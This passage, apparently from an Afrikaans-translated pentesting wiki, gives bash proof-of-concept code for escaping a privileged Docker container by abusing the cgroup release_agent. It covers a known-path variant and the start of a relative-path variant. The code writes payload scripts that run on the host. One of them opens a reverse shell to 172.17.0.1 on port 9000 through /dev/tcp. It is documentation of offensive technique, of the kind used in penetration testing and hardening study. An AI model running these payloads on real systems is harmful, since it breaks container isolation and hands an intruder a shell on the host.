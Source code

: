 ```bash
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/172.17.0.1/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
{% endcode %}

Vind 'n **verduideliking van die tegniek** in:

{% content-ref url="docker-release_agent-cgroups-escape.md" %}
[docker-release\_agent-cgroups-escape.md](docker-release\_agent-cgroups-escape.md)
{% endcontent-ref %}

#### Bevoorregte Ontsnapping deur die release\_agent te misbruik sonder om die relatiewe pad te ken - PoC3

In die vorige aanvalle is die **absoluite pad van die houer binne die gasheer se lêersisteem bekendgemaak**. Dit is egter nie altyd die geval nie. In gevalle waar jy **nie die absoluite pad van die houer binne die gasheer ken nie** kan jy hierdie tegniek gebruik:

{% content-ref url="release_agent-exploit-relative-paths-to-pids.md" %}
[release\_agent-exploit-relative-paths-to-pids.md](release\_agent-exploit-relative-paths-to-pids.md)
{% endcontent-ref %}
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}
```